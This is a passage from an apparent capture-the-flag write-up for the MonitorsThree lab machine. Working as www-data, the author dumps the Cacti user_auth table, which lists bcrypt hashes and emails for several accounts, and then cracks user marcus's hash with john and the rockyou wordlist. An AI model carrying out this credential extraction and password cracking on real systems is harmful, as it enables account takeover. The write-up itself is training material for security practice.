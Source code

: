 Extract username and passwords for marcus user

```bash
www-data@monitorsthree:~/html/cacti/resource$ cacdb 'use cacti;select * from user_auth'
cacdb 'use cacti;select * from user_auth'
+----+----------+--------------------------------------------------------------+-------+---------------+--------------------------+----------------------+-----------------+-----------+-----------+--------------+----------------+------------+---------------+--------------+--------------+------------------------+---------+------------+-----------+------------------+--------+-----------------+----------+-------------+
| id | username | password                                                     | realm | full_name     | email_address            | must_change_password | password_change | show_tree | show_list | show_preview | graph_settings | login_opts | policy_graphs | policy_trees | policy_hosts | policy_graph_templates | enabled | lastchange | lastlogin | password_history | locked | failed_attempts | lastfail | reset_perms |
+----+----------+--------------------------------------------------------------+-------+---------------+--------------------------+----------------------+-----------------+-----------+-----------+--------------+----------------+------------+---------------+--------------+--------------+------------------------+---------+------------+-----------+------------------+--------+-----------------+----------+-------------+
|  1 | admin    | $2y$10$tjPSsSP6UovL3OTNeam4Oe24TSRuSRRApmqf5vPinSer3mDuyG90G |     0 | Administrator | marcus@monitorsthree.htb |                      |                 | on        | on        | on           | on             |          2 |             1 |            1 |            1 |                      1 | on      |         -1 |        -1 | -1               |        |               0 |        0 |   436423766 |
|  3 | guest    | $2y$10$SO8woUvjSFMr1CDo8O3cz.S6uJoqLaTe6/mvIcUuXzKsATo77nLHu |     0 | Guest Account | guest@monitorsthree.htb  |                      |                 | on        | on        | on           |                |          1 |             1 |            1 |            1 |                      1 |         |         -1 |        -1 | -1               |        |               0 |        0 |  3774379591 |
|  4 | marcus   | $2y$10$Fq8wGXvlM3Le.5LIzmM9weFs9s6W2i1FLg3yrdNGmkIaxo79IBjtK |     0 | Marcus        | marcus@monitorsthree.htb |                      | on              | on        | on        | on           | on             |          1 |             1 |            1 |            1 |                      1 | on      |         -1 |        -1 |                  |        |               0 |        0 |  1677427318 |
+----+----------+--------------------------------------------------------------+-------+---------------+--------------------------+----------------------+-----------------+-----------+-----------+--------------+----------------+------------+---------------+--------------+--------------+------------------------+---------+------------+-----------+------------------+--------+-----------------+----------+-------------+

```

## User shell&#x20;

I used john to crack the password

```bash
╰─➤  john --wordlist=/usr/share/wordlists/rockyou.txt marcus.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
12345678910      (?)     
1g 0:00:00:01 DONE (2024-08-27 22:10) 0.5263g/s 303.1p/s 303.1c/s 303.1C/s 12345678910..parola
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
                                                                                          
```
